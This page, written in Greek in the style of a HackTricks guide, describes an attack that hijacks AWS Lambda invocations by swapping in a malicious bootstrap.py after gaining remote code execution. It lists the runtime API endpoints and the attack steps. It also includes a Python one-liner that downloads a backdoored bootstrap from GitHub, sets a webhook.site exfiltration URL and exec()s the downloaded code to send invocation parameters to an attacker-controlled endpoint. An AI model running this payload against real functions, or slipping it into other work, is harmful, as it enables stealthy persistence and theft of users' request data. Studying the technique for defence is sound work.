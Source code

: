 # AWS - Κλοπή Αιτημάτων Lambda

{{#include ../../../../banners/hacktricks-training.md}}

## Ροή Lambda

<figure><img src="../../../../images/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** είναι μια διαδικασία εκτός του κοντέινερ που **στέλνει** **κλήσεις** στη διαδικασία **init**.
2. Η διαδικασία init ακούει στη θύρα **9001** εκθέτοντας μερικά ενδιαφέροντα endpoints:
- **`/2018-06-01/runtime/invocation/next`** – λάβετε το επόμενο γεγονός κλήσης
- **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – επιστρέφει την απάντηση του χειριστή για την κλήση
- **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – επιστρέφει ένα σφάλμα εκτέλεσης
3. **bootstrap.py** έχει έναν βρόχο που λαμβάνει κλήσεις από τη διαδικασία init και καλεί τον κώδικα του χρήστη για να τις χειριστεί (**`/next`**).
4. Τέλος, το **bootstrap.py** στέλνει στην init την **απάντηση**

Σημειώστε ότι το bootstrap φορτώνει τον κώδικα του χρήστη ως μονάδα, οπότε οποιαδήποτε εκτέλεση κώδικα που εκτελείται από τον κώδικα του χρήστη συμβαίνει στην πραγματικότητα σε αυτή τη διαδικασία.

## Κλοπή Αιτημάτων Lambda

Ο στόχος αυτής της επίθεσης είναι να κάνει τον κώδικα του χρήστη να εκτελέσει μια κακόβουλη διαδικασία **`bootstrap.py`** μέσα στη διαδικασία **`bootstrap.py`** που χειρίζεται το ευάλωτο αίτημα. Με αυτόν τον τρόπο, η **κακόβουλη bootstrap** διαδικασία θα αρχίσει να **επικοινωνεί με τη διαδικασία init** για να χειριστεί τα αιτήματα ενώ η **νόμιμη** bootstrap είναι **παγιδευμένη** εκτελώντας την κακόβουλη, οπότε δεν θα ζητήσει αιτήματα από τη διαδικασία init.

Αυτή είναι μια απλή εργασία για να επιτευχθεί καθώς ο κώδικας του χρήστη εκτελείται από τη νόμιμη διαδικασία **`bootstrap.py`**. Έτσι, ο επιτιθέμενος θα μπορούσε:

- **Να στείλει ένα ψεύτικο αποτέλεσμα της τρέχουσας κλήσης στη διαδικασία init**, ώστε η init να νομίζει ότι η διαδικασία bootstrap περιμένει περισσότερες κλήσεις.
- Ένα αίτημα πρέπει να σταλεί στο **`/${invoke-id}/response`**
- Το invoke-id μπορεί να αποκτηθεί από τη στοίβα της νόμιμης διαδικασίας **`bootstrap.py`** χρησιμοποιώντας το [**inspect**](https://docs.python.org/3/library/inspect.html) python module (όπως [προτάθηκε εδώ](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) ή απλά ζητώντας το ξανά στο **`/2018-06-01/runtime/invocation/next`** (όπως [προτάθηκε εδώ](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
- Εκτελέστε μια κακόβουλη **`boostrap.py`** που θα χειριστεί τις επόμενες κλήσεις
- Για λόγους μυστικότητας, είναι δυνατό να στείλετε τις παραμέτρους κλήσεων lambda σε έναν ελεγχόμενο από τον επιτιθέμενο C2 και στη συνέχεια να χειριστείτε τα αιτήματα όπως συνήθως.
- Για αυτή την επίθεση, αρκεί να αποκτήσετε τον αρχικό κώδικα του **`bootstrap.py`** από το σύστημα ή [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), να προσθέσετε τον κακόβουλο κώδικα και να τον εκτελέσετε από την τρέχουσα κλήση lambda.

### Βήματα Επίθεσης

1. Βρείτε μια **RCE** ευπάθεια.
2. Δημιουργήστε μια **κακόβουλη** **bootstrap** (π.χ. [https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Εκτελέστε** την κακόβουλη bootstrap.

Μπορείτε εύκολα να εκτελέσετε αυτές τις ενέργειες εκτελώντας:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Για περισσότερες πληροφορίες, ελέγξτε [https://github.com/carlospolop/lambda_bootstrap_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Αναφορές

- [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{{#include ../../../../banners/hacktricks-training.md}}
